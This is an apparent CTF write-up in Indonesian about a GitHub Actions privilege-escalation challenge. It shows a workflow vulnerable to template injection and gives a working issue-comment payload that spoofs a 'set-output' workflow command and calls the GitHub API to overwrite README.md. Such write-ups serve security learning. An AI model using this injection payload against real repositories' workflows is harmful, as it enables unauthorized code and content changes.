 ```yaml
---
title: "[Writeup][CTF][GitHub] Privilege Escalation on GitHub Action"
date: '2021-06-14 04:00:00'
tags: ['ctf','github','writeup']
categories: ['writeup','ctf']
author: "fadhilthomas"
draft: false
---
```


![alt text](/github01/logo.svg)

Bulan Maret 2021, GitHub mengadakan *security competition*, yaitu Capture The Flag yang menjadikan Github Action Workflow sebagai tantangannya. 

Peserta diberikan sebuah repositori pribadi yang berisi sebuah Github Action Workflow dan file Readme yang hanya memiliki akses baca atau *pull* saja. Tujuan dari tantangan ini yaitu peserta diharuskan melakukan *update* file di repositori tersebut.

![alt text](/github01/github01.png)

## Problem
```yaml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

## Analysis
Sesuai dengan namanya, Github Action di atas memiliki *flow* untuk melakukan *logging* dari komentar pada *issue* yang sudah dibuat. Pada *step* pertama, Github Action memiliki env yaitu `COMMENT_BODY` dan `COMMENT_ID`. Kemudian ia akan melakukan *logging* isi dari badan komentar menggunakan console.log. 

Pada step kedua, terdapat pengecekan kondisi apabila keluaran dari `COMMENT_ID` pada step pertama bernilai `true` atau `1`, maka Github Action akan mengeksekusi script berikut ```const id = ${{ steps.comment_log.outputs.COMMENT_ID }}``` yang mana, terdapat celah keamanan yaitu *javascript template injection*. 

Namun sebelum bisa memanfaatkan celah *template injection*, terlebih dahulu harus memenuhi kondisi `COMMENT_ID == true`. Dalam [dokumentasi GitHub](https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands), *workflow runner* akan mengeksekusi *workflow* command melalui `stdout` yaitu `console.log`, dan dalam [dokumentasi GitHub](https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#setting-an-output-parameter) juga terdapat command yang dapat membagikan nilai *variable* antar *workflow* melalui command `set-output`.

## Exploit
Untuk memperbarui file `README.md` yang ada dalam repositori, maka tambahkan *script* berikut pada komentar *issue*:
```yaml
::set-output name=COMMENT_ID::1;
await github.request('PUT /repos/{owner}/{repo}/contents/{path}', 
{ 
  owner: 'incrediblysecureinc', 
  repo: 'incredibly-secure-fadhilthomas',
  path: 'README.md',
  message: 'update: escalation',
  content: 'dGFrZW5z',
  sha: '4183b7e35a40d11acf98bad686ed2f6834cd71d0' 
})
```
Penjelasan dari *script* di atas sebagai berikut:

 - `::set-output name=COMMENT_ID::1;` berfungsi untuk mengirimkan nilai `COMMENT_ID` ke step kedua untuk memenuhi pengecekan kondisi.
 - `github.request('PUT /repos/{owner}/{repo}/contents/{path}` merupakan [GitHub REST API](https://docs.github.com/en/rest/reference/repos#create-or-update-file-contents) untuk memperbarui file.

Hasil dari script di atas adalah file `README.md` berhasil diperbarui sesuai dengan tujuan dari tantangan ini.
![alt text](/github01/github02.png)

## References
1. https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands
2. https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#setting-an-output-parameter
3. https://docs.github.com/en/rest/reference/repos#create-or-update-file-contents
